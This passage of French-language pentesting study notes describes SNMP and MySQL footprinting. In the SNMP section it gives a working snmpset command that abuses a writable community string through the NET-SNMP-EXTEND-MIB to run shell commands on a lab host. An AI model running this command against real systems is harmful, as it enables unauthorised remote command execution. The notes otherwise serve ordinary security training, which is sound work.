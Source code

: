 Encore une fois, nous tenons à souligner que la configuration indépendante du service SNMP nous apportera une grande variété d'expériences différentes qu'aucun tutoriel ne peut remplacer. Par conséquent, nous vous recommandons vivement de configurer une machine virtuelle avec SNMP, de l'expérimenter et d'essayer différentes configurations. SNMP peut être une aubaine pour un informaticien. administrateur système ainsi qu'une malédiction pour les analystes et les gestionnaires de sécurité.

### RCE
Il est possible d'executer des commandes à distances avec une communauté en droit d'écritures :
https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce

snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c public 10.129.67.235 \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = sh \
'nsExtendArgs."evilcommand"' = '/usr/share/flag.txt'

<hr>

## MySQL

MySQL est un système de gestion de base de données relationnelle SQL open source développé et pris en charge par Oracle. Une base de données est simplement une collection structurée de données organisées pour une utilisation et une récupération faciles. Le système de base de données peut traiter rapidement de grandes quantités de données avec des performances élevées. Au sein de la base de données, le stockage des données se fait de manière à occuper le moins d'espace possible. La base de données est contrôlée à l'aide du langage de base de données SQL. MySQL fonctionne selon le principe client-serveur et se compose d'un serveur MySQL et d'un ou plusieurs clients MySQL. Le serveur MySQL est le véritable système de gestion de base de données. Il s'occupe du stockage et de la distribution des données. Les données sont stockées dans des tables avec des colonnes, des lignes et des types de données différents. Ces bases de données sont souvent stockées dans un seul fichier avec l'extension de fichier .sql, par exemple, comme wordpress.sql.

### Client MySQL
Les clients MySQL peuvent récupérer et modifier les données à l'aide de requêtes structurées adressées au moteur de base de données. L'insertion, la suppression, la modification et la récupération de données s'effectuent à l'aide du langage de base de données SQL. Par conséquent, MySQL convient à la gestion de nombreuses bases de données différentes auxquelles les clients peuvent envoyer plusieurs requêtes simultanément. Selon l'utilisation de la base de données, l'accès est possible via un réseau interne ou l'Internet public.

L'un des meilleurs exemples d'utilisation de bases de données est le CMS WordPress. WordPress stocke tous les messages, noms d'utilisateur et mots de passe créés dans sa propre base de données, qui n'est accessible qu'à partir de l'hôte local. Cependant, comme expliqué plus en détail dans le module Introduction aux applications Web, certaines structures de bases de données sont également réparties sur plusieurs serveurs.

### Bases de données MySQL
MySQL est parfaitement adapté aux applications telles que les sites Web dynamiques, où une syntaxe efficace et une vitesse de réponse élevée sont essentielles. Il est souvent combiné avec un système d'exploitation Linux, PHP et un serveur Web Apache et est également connu dans cette combinaison sous le nom de LAMP (Linux, Apache, MySQL, PHP) ou, lors de l'utilisation de Nginx, sous le nom de LEMP. Dans un hébergement Web avec base de données MySQL, cela sert d'instance centrale dans laquelle le contenu requis par les scripts PHP est stocké. Parmi ceux-ci figurent :
